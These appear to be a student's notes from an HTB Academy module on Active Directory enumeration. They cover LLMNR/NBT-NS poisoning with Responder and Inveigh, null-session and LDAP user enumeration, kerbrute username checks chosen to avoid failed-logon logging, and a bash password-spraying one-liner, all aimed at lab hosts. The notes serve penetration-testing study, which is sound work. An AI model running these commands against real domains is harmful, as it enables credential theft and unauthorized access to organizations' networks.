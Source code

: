 ## Introduction
At the time of writing this module, Microsoft Active Directory holds around `43%` of the [market share](https://www.slintel.com/tech/identity-and-access-management/microsoft-active-directory-market-share#faqs) for enterprise organizations utilizing `Identity and Access management` solutions.
We can use a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to scrape data from a company's LinkedIn page and create various mashups of usernames

Our tasks to accomplish for this section are:
- Enumerate the internal network, identifying hosts, critical services, and potential avenues for a foothold.
- This can include active and passive measures to identify users, hosts, and vulnerabilities we may be able to take advantage of to further our access.
- Document any findings we come across for later use. Extremely important!

Kerbrute is good.

## LLMR/NBT-NS Poisoning from Linux
Man-In-The-Middle on Link-Local Multicaster Name Resolution (*LLMR/NBT*).
[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063\(v=technet.10\)?redirectedfrom=MSDN) (NBT-NS) are Microsoft Windows components that serve as alternate methods of host identification

1. A host attempts to connect to the print server at \\print01.inlanefreight.local, but accidentally types in \\printer01.inlanefreight.local.
2. The DNS server responds, stating that this host is unknown.
3. The host then broadcasts out to the entire local network asking if anyone knows the location of \\printer01.inlanefreight.local.
4. The attacker (us with `Responder` running) responds to the host stating that it is the \\printer01.inlanefreight.local that the host is looking for.
5. The host believes this reply and sends an authentication request to the attacker with a username and NTLMv2 password hash.
6. This hash can then be cracked offline or used in an SMB Relay attack if the right conditions exist.

With *NTLM* has we can take it and pass it into hashcat or use it in pth attacks. 
Responder and Metasploit can both do LLMR/NBT-NS Poisoning

Useful `Reponder` Flags
`-w wpad server (capture http requests using internet explorer)`
`-A analyze mode`
`-f fingerprint`

*Responder provides NLTMv2 hashes which can be cracked with hashcat -m 5600*

## NLTMNR/NBT-NS Poisoning - from Windows
We use the term Inveigh to capture credentials.
Works similiar to Responder but uses C# and Powershell

#### Using Inveigh (Powershell)
```powershell-session
PS C:\htb> Import-Module .\Inveigh.ps1
PS C:\htb> (Get-Command Invoke-Inveigh).Parameters
```
```powershell-session
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

#### C# (Inveigh Zero)
```powershell-session
.\Inveigh.exe
```

We can quickly view unique captured hashes by typing `GET NTLMV2UNIQUE`.
We can type in `GET NTLMV2USERNAMES` and see which usernames we have collected.

## Password Spraying
[statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames)
### Enumerating The Password Policy - From Linux
```shell-session
crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol
```

### Enumerating Password Policy - SMB Null sesssion
Without password policy we may need to enumerate via a *SMB null session* or *LDAP anonymous bind*.

When creating a domain in earlier versions of Windows Server, anonymous access was granted to certain shares, which allowed for domain enumeration. An SMB NULL session can be enumerated easily.

We can use *rpcclient* to check domain controller for SMB NULL session access

```shell-session
rpcclient -U "" -N 172.16.5.5
querydominfo
```

Enum4linux is built around the samba suite of tools 

### Enumerating Null Session from Windows
It is less common to do this type of null session attack from Windows, but we could use the command `net use \\host\ipc$ "" /u:""` to establish a null session from a windows machine

### Enumerating the Password Policy - from Linux - LDAP Anonymous Bind 
[LDAP anonymous binds](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/anonymous-ldap-operations-active-directory-disabled) allow unauthenticated attackers to retrieve information from the domain, such as a complete listing of users, groups, computers, user account attributes, and the domain password policy.

This is a legacy configuration, and as of Windows Server 2003, only authenticated users are permitted to initiate LDAP requests.

With an LDAP anonymous bind, we can use LDAP-specific enumeration tools.
With ldapsearch 

```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

### Enumerating Password Policy - from Windows
#### Using net.exe
```cmd-session
net accounts
```

#### Using PowerView
```powershell-session
Get-DomainPolicy
```

## Password Spraying - Making a Target User List
* By using an *SMB NULL* session we can retrieve a full list of users.
* Utilizing an anonymous LDAP bind query to pull user domain list
* Using kerbrute with tilizing a word list from a source such as the [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) GitHub repo, or gathered by using a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to create a list of potentially valid users
* Using set of credentials obtained from another means 

### SMB NULL Session to Pull User List
Enum4Linux can leverage null sessions to pull user lists.
```shell-session
enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"
```
Or we can use `enumdomusers` after connecting anonymously with *rpcclient*.

If you have credentials for a System account you can trivially enumerate users as it can impersonate other users 

```shell-session
rpcclient -U "" -N 172.16.5.5
enumdomusers
```
#### Using CrackMapExec --users Flag
```shell-session
crackmapexec smb 172.16.5.5 --users
```

### Enumerating Users with an LDAP Anonymous session
```shell-session
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

### Enumerating Users with Kerbrute
If we have no access to a null session or ldap we can enumerate sessions with *Kerbrute*
This tool uses [Kerberos Pre-Authentication](https://ldapwiki.com/wiki/Wiki.jsp?page=Kerberos%20Pre-Authentication), which is a much faster and potentially stealthier way to perform password spraying. This method does not generate Windows event ID [4625: An account failed to log on](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625), or a logon failure which is often monitored for.

The [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames) GitHub repo is an excellent resource for this type of attack

```shell-session
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

If we are unable to create a valid username list using any of the methods highlighted above, we could turn back to external information gathering and search for company email addresses or use a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to mash up possible usernames from a company's LinkedIn page.
#### Validating 
```shell-session
sudo crackmapexec smb 172.16.5.5 -u htb-student -p Academy_student_AD! --users
```

## Internal Password Spraying From Linux
#### Using a Bash one-liner for the Attack
```shell-session
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```
